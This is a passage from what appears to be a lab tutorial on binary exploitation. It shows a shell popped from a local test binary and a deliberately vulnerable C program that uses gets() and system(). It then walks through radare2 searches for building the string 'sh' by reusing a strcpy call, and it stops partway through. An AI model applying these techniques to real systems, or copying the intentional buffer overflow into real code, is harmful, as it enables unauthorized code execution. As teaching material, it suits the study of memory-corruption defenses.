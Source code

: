 ```Py
sys.stdout.buffer.write(buf)
```
And the shell pops up as usual:
```
lab@lab-VirtualBox:~/asl$ (python3 exploit2.py; cat;) | ./example_2
Thu Jun 30 07:54:42 EDT 2022

id
uid=1000(lab) gid=1000(lab) groups=1000(lab),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

#### Call reuse and string crafting
But in a case such as the previously presented, it'll be rare to find a stirng ending with "sh" or something like that, even more rare in MS Windows (cmd.exe). But it may be more common, especially in large executables to find a call to strcpy or some function like that, used for operating with strings. In a scenario like that we'll try to call strcpy to actually BUILD "sh" in memory and then reference it.

Let's start from this program here:
```C
#include <stdio.h>
#include <string.h>
void unused(){
    char dummy1[10];
    char dummy2[10];
    strcpy(dummy1,dummy2);
}
void show_date(){
    system("/bin/date");
}
void greet_me()
{
    char name[200];
    show_date();
    printf("Enter your name:");
    gets(name);
    printf("hi %s !\n",name);
  
}
int main(int argc, char *argv[])
{
    greet_me();
    return 0;  
}
```
So first of all we will need to find the letter "s" and the letter "h" each of them before a null terminator. That can be done in radare2 like this:
```
[0x004004e0]> / s\x00
Searching 2 bytes in [0x400000-0x401000]
hits: 1
0x0040036e hit40_0 .libc.so.6gets\u0000strcpyprintfsy.
[0x004004e0]> pxw @ 0x0040036e
0x0040036e  0x74730073 0x79706372 0x69727000 0x0066746e  s.strcpy.printf.

[0x004004e0]> / h\x00
Searching 2 bytes in [0x400000-0x401000]
hits: 1
0x004004a6 hit39_0 .%t @%r h\u0000%j h.
[0x004004e0]> pxw @ 0x004004a6
0x004004a6  0x00000068 0xffe0e900 0x25ffffff 0x00200b6a  h..........%j. .
0x004004b6  0x00000168 0xffd0e900 0x25ffffff 0x00200b62  h..........%b. .
```
Then we proceed to find the instructions needed for passing the parameters: